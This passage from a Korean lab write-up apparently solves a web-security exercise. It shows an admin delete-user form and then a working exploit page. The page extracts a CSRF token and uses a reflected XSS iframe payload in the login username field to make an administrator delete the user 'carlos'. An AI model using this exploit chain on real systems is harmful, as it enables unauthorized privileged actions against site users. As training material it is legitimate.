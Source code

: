 ```html
    

<div theme="">
    <section class="maincontainer">
        <div class="container is-page">
            <header class="navigation-header">
                <section class="top-links">
                    <a href="/">Home</a><p>|</p>
                    <a href="/admin">Admin panel</a><p>|</p>
                    <a href="/my-account?id=administrator">My account</a><p>|</p>
                </section>
            </header>
            <header class="notification-header">
            </header>
            <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                <input required="" type="hidden" name="csrf" value="EjhuANSi8qXCN5fYqT9FPBoviJS21B1z">
                <label>Username</label>
                <input required="" type="text" name="username">
                <button class="button" type="submit">Delete user</button>
            </form>
        </div>
    </section>
    <div class="footer-wrapper">
    </div>
</div>
```

## STEP 4. XSS를 이용해서 carlos 유저 삭제하기 
이제 마지막스텝이다. XSS를 이용해서 관리자가 carlos 유저 삭제하도록 만든다. 

다음 코드를 사용한다. STEP 3의 코드와 비슷하다. XSS로 인해 iframe이 로드되면 유저 삭제 폼에 carlos유저명을 지정해준뒤 form을 submit하는 코드다. 

```html
<html>
    <script>
        url = "http://192.168.0.250:8080"

        fetch(url)
        .then(response => response.text())
        .then(text => {
            try{
                xss_vector = '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0]; if(f.username) f.username.value=\'carlos\', f.submit()">';
                login_path = '/login?username=' + encodeURIComponent(xss_vector) + '&password=random&csrf=' + text.match(/csrf" value="([^"]+)"/)[1];
                location = url + login_path;

            }catch (err){
                
            }
        })
        </script>
</html>
```
